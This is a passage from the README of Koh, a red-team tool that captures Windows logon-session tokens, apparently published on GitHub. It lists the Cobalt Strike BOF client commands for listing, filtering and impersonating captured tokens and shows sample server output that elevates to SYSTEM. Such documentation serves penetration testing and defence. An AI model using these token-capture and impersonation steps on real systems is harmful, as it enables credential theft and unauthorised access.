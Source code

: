 ```
      LUID        : 1677733
      LogonType   : Interactive
      AuthPackage : Kerberos
      User SID    : S-1-5-21-937929760-3187473010-80948926-1104
      Origin LUID : 999 (0x3e7)
  
```


## Koh Client

The current usable client is a Beacon Object File at `.\Clients\BOF\`. Load the `.\Clients\BOF\KohClient.cna` aggressor script in your Cobalt Strike client to enable BOF control of the Koh server. The only requirement for using captured tokens is **SeImpersonatePrivilege**. The communication named pipe has an "Everyone" DACL but uses a basic shared password (super securez).

To compile fresh on Linux using Mingw, see the `.\Clients\BOF\build.sh` script. The only requirement (on Debian at least) should be `apt-get install gcc-mingw-w64`

### Usage

```
beacon> help koh
koh list              - lists captured tokens
koh groups LUID       - lists the group SIDs for a captured token
koh filter list       - lists the group SIDs used for capture filtering
koh filter add SID    - adds a group SID for capture filtering
koh filter remove SID - removes a group SID from capture filtering
koh filter reset      - resets the SID group capture filter
koh impersonate LUID  - impersonates the captured token with the give LUID
koh release all       - releases all captured tokens
koh release LUID      - releases the captured token for the specified LUID
koh exit              - signals the Koh server to exit
```

### Group SID Filtering

The `koh filter add S-1-5-21-<DOMAIN>-<RID>` command will only capture tokens that contain the supplied group SID. This command can be run multiple times to add additional SIDs for capture. This can help prevent possible stability issues due to a large number of token leaks.


### Example - Capture

"Captures" logon sessions by negotiating usable tokens for each new session.

Server:

```
C:\Temp>Koh.exe capture

 __  ___   ______    __    __
|  |/  /  /  __  \  |  |  |  |
|  '  /  |  |  |  | |  |__|  |
|    <   |  |  |  | |   __   |
|  .  \  |  `--'  | |  |  |  |
|__|\__\  \______/  |__|  |__|
                     v1.0.0


  [*] Command: capture

  [*] Starting server with named pipe: imposecost

  [*] Elevated to SYSTEM

```